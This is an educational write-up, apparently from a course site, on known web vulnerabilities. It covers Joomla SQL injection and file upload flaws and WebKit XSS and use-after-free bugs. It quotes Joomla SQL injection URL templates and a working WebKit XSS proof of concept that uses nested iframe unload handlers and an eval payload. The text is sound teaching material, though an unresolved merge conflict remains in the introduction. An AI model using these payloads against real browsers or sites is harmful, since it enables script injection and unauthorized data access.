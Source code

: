 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------
<<<<<<< HEAD
There are many examples of known vulnerabilities regarding web security. 
Although some fixes are easy to implement with a quick Google search, others 
take time and effort to correct based on the programmer's individual situation.
With that in mind, here are examples of known security vulnerabilities and how 
to combat each issue.
=======
>>>>>>> e985b8a78a408333723952673f3a3ff97ac17af6

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

.. image:: sql_injection.gif

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. 
`Here <http://2017-web-development.readthedocs.io/en/latest/sql_injection/sql_injection.html>`_ 
is a link with more information regarding SQL injections. Below is an example of 
how the SQL injection could be implemented into a URL to access another person's 
messages in Joomla MSG [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

.. image:: insecure_file_upload.png

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. More information on insecure file upload can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/directory_traversal/directory_traversal.html>`_. In order to prevent this type of vulnerability, the 
JEM should restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

.. image:: xss.png

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies. A further description 
of XSS can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/xss/xss.html>`_.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, allowing it to be modified by the
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 


Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.